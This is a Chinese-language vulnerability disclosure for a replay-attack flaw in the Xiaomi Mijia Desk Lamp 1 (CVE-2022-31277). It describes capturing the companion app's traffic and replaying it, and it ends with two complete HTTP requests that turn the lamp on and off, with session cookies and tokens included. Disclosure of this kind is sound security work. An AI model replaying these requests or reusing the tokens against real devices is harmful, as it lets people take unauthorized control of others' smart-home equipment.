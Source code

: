 ## 米家台灯1存在重放攻击漏洞

**漏洞厂商**: 小米

**厂商官网**: https://www.mi.com/

**影响产品**: 米家台灯 1

**影响产品版本**: 2.0.4_0066

**固件链接**: 非公开

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

**CNVD**: CNVD-2022-08945

**CVE**: CVE-2022-31277

### 漏洞描述

米家台灯 1 存在重放攻击漏洞，允许远程攻击者通过重放攻击绕过预期访问限制，控制米家台灯 1 开关等等功能。

### 漏洞详情

以重放攻击打开台灯为例。通过 burp sutie 抓取[米家 ](https://app.mi.com/details?id=com.xiaomi.smarthome)APP 流量，点击开启台灯，抓取一个路径是 `/app/home/rpc/xxxxxx` 的流量包，这个就是操控台灯的数据包：

![image-20220105113225376](img/image-20220105113225376.png)

放入重放器，只要发送这个数据包就能开启台灯。

![image-20220105114115340](img/image-20220105114115340.png)

可以看到包里面的 data 加密的，通过分析 apk 知道是加密的 json 存放控制信息键值对。再次抓取一个开灯操作包：

![image-20220105165504569](img/image-20220105165504569.png)

两次数据包 data 密文不一样，但是**两个数据包都能重放攻击打开台灯**。

### 攻击演示

攻击视频过程，请查看目录下的演示视频

![image-20220105114455019](img/image-20220105114455019.png)

### 数据包

**Power on**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=YHYNfLWS8LEBZBZZIdUR1X606sBwilQiZDMloVqjt%2BFVbPNjRnEIeB5DvZinL7Y%3D&rc4_hash__=XqPOZ7wCLzpDaEroeFmOWQXUiCoFIyOiy49GNQ%3D%3D&signature=zts1XCrmpHnd7ukhqB1Uv3am6kk%3D&_nonce=Cpz3G2Yb8koBoWqu&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

**Power off**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 235
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=AeYm0RhrXxd2UFW0RbrSq1vJg00F7etiu3HU%2B49SIY0KBAr5BZ4aWWtRRp%2BkUfpK&rc4_hash__=t1RrRFeKaIExpcqPD7fs29PwOaWF0%2BZDak92NA%3D%3D&signature=G5jfJlJkrYKectgL1ylXFWV6g1M%3D&_nonce=hlmICBR3G2cBoWqv&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

